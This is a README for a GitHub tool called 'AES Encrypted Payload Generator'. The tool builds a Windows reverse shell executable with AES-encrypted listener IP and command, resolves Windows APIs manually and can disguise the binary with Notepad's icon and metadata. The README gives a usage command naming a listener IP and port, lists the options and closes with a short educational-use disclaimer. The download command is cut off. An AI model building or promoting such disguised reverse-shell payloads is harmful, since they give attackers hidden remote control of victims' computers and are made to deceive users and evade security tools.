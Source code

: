# 🛡️ AES Encrypted Payload Generator

This tool generates a Windows reverse shell payload with **AES-encrypted IP and command values**, compiles it with optional **Notepad disguise**, and supports automatic cleanup.

---

## ⚙️ Features

- 🔐 AES (ECB mode) encryption for sensitive data
- 🧩 Dynamic payload generation in C
- 🪟 Native Windows API usage (with manual `GetProcAddress` resolution)
- 🎭 Optional Notepad spoofing (icon + metadata)
- 🛠️ Easy cross-compilation via MinGW (Linux)

---

## 🚀 Usage

### Basic Example
```bash
python3 payload_gen.py --ip 192.168.1.100 --port 4444 --notepad
```
### Arguments

**--ip** : IP address of the reverse shell listener (required).
**--port** : TCP port for the connection (default: 49557).
**--cmd** : Command to execute (default: cmd.exe).
**--notepad** : Mimic Notepad metadata and icon.
**--keep** : Keep temporary files (.c, .rc, .res) after building.

---

## Download
```bash
git clone
```

---

## Disclaimer

**This project is provided strictly for educational and ethical security research purposes.
Unauthorized use against third-party systems is illegal. You are solely responsible for how you use this code.**

